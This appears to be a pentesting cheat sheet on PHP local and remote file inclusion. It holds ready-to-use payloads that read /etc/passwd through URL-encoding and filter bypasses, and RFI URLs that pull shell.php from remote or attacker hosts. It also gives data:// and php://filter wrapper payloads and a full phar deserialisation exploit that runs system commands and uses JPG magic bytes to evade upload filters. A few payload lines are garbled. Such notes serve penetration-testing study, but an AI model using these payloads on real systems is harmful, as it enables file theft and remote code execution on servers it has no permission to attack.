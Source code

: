 # File inclusion
This happens when a user can control the file that is being loaded on the server.

## Local File Inclusion (LFI)
The server loads a local file.

### Basic LFI and bypasses

```
http://domain.com/index.php?page=../../../etc/passwd
```

#### URL encoding
One can try to URL encode the path either once or numerous times.
```
http://domain.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://domain.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### Filter bypasses
```
http://domain.com/index.php?page=....//....//etc/passwd
http://domain.com/index.php?page=..///////..////..//////etc/passwd
http://domain.com/index.php?page=PhP://filter
```

## Remote File Inclusion (RFI)
The server loads a file which is hosted on another server.      
RFI can only take place if  `allow_url_include` is turned on.

### Basic RFI and bypasses

```
http://domain.com/index.php?page=http://remote.com/shell.php
http://domain.com/index.php?page=\\remote.com\shell.phpattacker.com\mal.php
```



## PHP wrappers
### php://filter
PHP filters allow one to perform modification on data before it's being read by the server.     
Some of the techniques below can be used to bypass restrictions and filters set by the server.

```
# BASE64 encode data
http://domain.com/index.php?page=php://filter/convert.base64-decode/resource=/etc/passwd);
```

### data://
```
http://domain.com/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://domain.com/?page=data://text/plain,<?php phpinfo(); ?>
```

### phar:// and phar deserialisation
A `.phar` file is a PHP archive. One can upload such file and execute code when it is being loaded.   
It contains metadata in a serialised format. When parsed on the server said metadata gets deserialised.

Even if the source code on the server is not using the `eval` function, the following other methods will still invoke the vulnerability. `file_get_contents()`,`fopen()`,`file()`,`file_exists()`,`md5_file()`,`filemtime()`,`filesize()`

**[More detail](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)**

#### Exploitation
1. Pretend that this is the source code of the server.
	```php
	# server.php
	<?php
	class ReadFile{
		public $data = null;
		
		public function __construct($data) {
			$this->data = $data;
		}
		
		function __destruct() {
			system($this->data);
		}
	}

	file_get_contents("phar://pwned.phar");

	?>
	```

2. This is the code that will make the phar file.
	```php
	# make_phar.php
	<?php
	class ReadFile{
		public $data = null;
		
		public function __construct($data) {
			$this->data = $data;
		}
		
		function __destruct() {
			system($this->data);
		}
	}
	
	# Make phar
	$phar = new Phar('pwned.phar');
	$phar->startBuffering();
	$phar->addFromString('test.txt', 'text');
	$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");
	
	# Add object of class as metadata
	$object = new ReadFile('whoami');
	$phar->setMetadata($object);
	$phar->stopBuffering();
	?>
	```
*Magic bytes of JPG* `\xff\xd8\xff` *have been added to the phar file to bypass file upload restrictions*

3. Compile `pwned.phar` with:
	```bash
	php --define phar.readonly=0 make_phar.php
	```

#### References
[https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)